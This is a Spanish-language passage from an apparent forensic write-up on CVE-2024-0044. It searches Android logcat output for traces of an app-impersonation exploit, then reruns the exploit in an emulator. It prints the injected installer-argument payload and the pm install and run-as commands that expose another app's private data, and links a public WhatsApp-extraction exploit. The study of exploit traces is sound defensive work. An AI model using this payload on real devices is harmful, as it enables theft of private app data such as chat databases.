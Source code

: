 Revisemos ahora `logcat.txt`:
Busquemos _vulnerable0_:

```bash
$ grep -n vulnerable0 logcat.txt
...
69065:01-09 15:06:35.622 10298 10298 I auditd  : type=1400 audit(0.0:41): avc: denied { getattr } for comm="ls" path="/data/data/com.example.vulnerable0" dev="dm-5" ino=123423 scontext=u:r:shell:s0 tcontext=u:object_r:app_data_file:s0:c147,c256,c512,c768 tclass=dir permissive=0
69066:01-09 15:06:35.622 10298 10298 W ls      : type=1400 audit(0.0:41): avc: denied { getattr } for path="/data/data/com.example.vulnerable0" dev="dm-5" ino=123423 scontext=u:r:shell:s0 tcontext=u:object_r:app_data_file:s0:c147,c256,c512,c768 tclass=dir permissive=0
...
```
&nbsp;
Este es solo un trozo de la salida del comando donde podemos ver nuestra prueba inicial de listar el directorio _data_ de vulnerable0, y se negó. Además de eso, no hay más referencias que tengan que ver con el exploit.

Ahora busquemos `com.google.android.gms:` con el comando `grep -n com.google.android.gms logcat.txt`. La salida de este comando es demasiado larga para ser revisada manualmente, ni siquiera cabe en la terminal.

Intentemos buscar el pedacito particular del exploit `"1 /data/user/0"` con el comando `grep  -n "1 /data/user/0" logcat.txt`, pero el resultado es nada, cero, vacío.

Por ahora no encontramos rastro del exploit en las extracciones que hicimos. Pero hagamos otra prueba.

Hay 2 exploits públicos para esta vulnerabilidad: la PoC de Meta y el exploit que mencionamos más arriba que automatiza la vulnerabilidad para sacar las conversaciones de WhatsApp. [Acá lo pongo de nuevo](https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03). En este exploit, la aplicación que se instala es F-Droid.apk (en vez de dummyApp). Entonces:

1. Bajamos el APK de F-Droid de la página de F-Droid y lo subimos al emulador con `adb push F-Droid.apk /data/local/tmp/`.
2. Ejecutamos el exploit de nuevo usando el APK de F-Droid; hacemos una extracción y miramos qué pasa.

   ```bash
   emulator64_x86_64_arm64:/ $ echo $PAYLOAD
   @null com.example.vulnerable0 10147 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null

   emulator64_x86_64_arm64:/ $ pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk
   Success

   emulator64_x86_64_arm64:/ $ run-as com.example.vulnerable0 ls -al /data/user/0/com.example.vulnerable0
   total 48
   drwx------   5 u0_a147 u0_a147        4096 2025-01-10 09:51 .
   drwxrwx--x 184 system  system        12288 2025-01-10 10:24 ..
   drwxrws--x   2 u0_a147 u0_a147_cache  4096 2025-01-10 09:51 cache
   drwxrws--x   2 u0_a147 u0_a147_cache  4096 2025-01-10 09:51 code_cache
   drwxrwx--x   2 u0_a147 u0_a147        4096 2025-01-10 09:51 files
   emulator64_x86_64_arm64:/ $
   ```
&nbsp;
   Lo que vemos aquí es la ejecución del exploit para suplantar _vulnerable0_ usando los dos directorios posibles: el _mágico_ `/data/user/0` y el original de la aplicación `/data/data/com.example.vulnerable0`. En ambos casos probamos que el exploit haya funcionado haciendo `ls -al` al directorio _data_ de _vulnerable0_.

